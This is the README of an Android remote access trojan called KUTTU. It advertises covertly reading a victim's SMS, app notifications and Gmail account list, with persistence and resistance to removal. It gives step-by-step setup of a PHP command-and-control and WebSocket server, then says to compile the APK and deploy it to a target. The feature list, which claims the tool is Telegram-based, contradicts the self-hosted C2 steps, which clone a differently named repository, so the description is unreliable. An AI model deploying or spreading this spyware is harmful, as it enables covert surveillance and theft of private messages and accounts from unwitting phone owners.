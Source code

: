 <p align="center">
  <img width="250" height="250" src="https://media3.giphy.com/media/XALwMpWaCJ5gr4Fcps/giphy.gif?cid=6c09b952upcyl1meas3obbs87sia3e1etx3x9i8ef68mxvwq&ep=v1_internal_gif_by_id&rid=giphy.gif&ct=s">
</p>
<h1 align="center">KUTTU</h1><p align="center">
<b>⚠️Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
</p>   

<p align=center>  
<a href=https://www.instagram.com/ashwin_hackr?igsh=MXZxbWVwcWs3bHZuMA==><img src="https://img.shields.io/badge/Author-Ashwin-red.svg?style=for-the-badge&label=Author" /></a>

<img src="https://img.shields.io/badge/Version-1.0-brightgreen?style=for-the-badge" >
</p>   


### Features
- Without port forwarding 
- Telegram based android rat
- Get gmail list(List of all Gmail accounts installed on mobile phones)
- Read notifications any apps(Whatsapp,Instagram,etc)
- Read incoming SMS
- Cannot delete.
- Persistence

[![Tutorial Video](https://img.youtube.com/vi/ykOx19hAaD4/0.jpg)](https://youtu.be/ykOx19hAaD4)

### Installation
- Clone repository
  ```console
  git clone https://github.com/Tomiwa-Ot/moukthar.git
  ```
- Install php, composer, mysql, php-mysql driver, apache2 and a2enmod
- Move server files to ```/var/www/html/``` and install dependencies
  ```console
  mv moukthar/Server/* /var/www/html/
  cd /var/www/html/c2-server
  composer install
  cd /var/www/html/web-socket/
  composer install
  cd /var/www
  chown -R www-data:www-data .
  chmod -R 777 .
  ```
  The default credentials are username: ```android``` and password: ```android```
- Create new sql user
  ```mysql
  CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
  GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
  FLUSH PRIVILEGES;
  ```
- Set database credentials in ```c2-server/.env``` and ```web-socket/.env```
- Execute ```database.sql```
- Start web socket server or deploy as service in linux
  ```console
  php Server/web-socket/App.php
  # OR
  sudo mv Server/websocket.service /etc/systemd/system/
  sudo systemctl daemon-reload
  sudo systemctl enable websocket.service
  sudo systemctl start websocket.service
  ```
- Modify ```/etc/apache2/sites-available/000-default.conf```
  ```console
  <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/c2-server
        DirectoryIndex app.php
        Options -Indexes

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
  </VirtualHost>

  ```
- Modify ```/etc/apache2/apache2.conf```
  ```xml
    Comment this section
    #<Directory />
    #       Options FollowSymLinks
    #       AllowOverride None
    #       Require all denied
    #</Directory>

   Add this
    <Directory /var/www/html/c2-server>
        Options -Indexes
        DirectoryIndex app.php
        AllowOverride All
        Require all granted
    </Directory>
  ```
- Increase php file upload max size ```/etc/php/*.*/apache2/php.ini```
  ```ini
  ; Increase size to permit large file uploads from client
  upload_max_filesize = 128M
  ; Set post_max_size to upload_max_filesize + 1
  post_max_size = 129M
  ```
- Set web socket server address in <script> tag in ```c2-server/src/View/home.php``` and ```c2-server/src/View/features/files.php```
  ```console
  const ws = new WebSocket('ws://IP_ADDRESS:8080');
  ```
- Restart apache using the command below
  ```console
  sudo a2enmod rewrite && sudo service apache2 restart
  ```
- Set C2 server and web socket server address in client ```functionality/Utils.java```
  ```java
  public static final String C2_SERVER = "http://localhost";

  public static final String WEB_SOCKET_SERVER = "ws://localhost:8080";
  ```
- Compile APK using Android Studio and deploy to target

### Screenshots
![Login](screenshots/login.png)
![Dashboard](screenshots/c2.png)
![Installed Apps](screenshots/apps.png)
![Camera](screenshots/camera.png)
![Contacts](screenshots/contacts.png)
![Files](screenshots/files.png)
![Notifications](screenshots/notifications.png)
![SMS](screenshots/sms.png)
![Video](screenshots/video.png)

### TODO
- Auto scroll logs on dashboard
- Screenshot not working
- Image/Video capturing doesn't work when application isn't in focus
- Downloading files in app using DownloadManager not working
- Listing constituents of a directory doesn't list all files/folders

